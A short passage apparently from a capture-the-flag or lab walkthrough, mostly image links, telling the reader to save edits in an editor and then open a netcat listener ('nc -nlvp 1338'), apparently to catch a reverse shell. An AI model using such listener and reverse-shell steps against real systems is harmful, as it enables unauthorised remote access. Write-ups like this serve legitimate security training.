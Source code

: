 ![image.png](../images/reset%2030.png)

now save the changes using CTRL + X

![image.png](../images/reset%2031.png)

now on your machine open a listener

```bash
nc -nlvp 1338
```
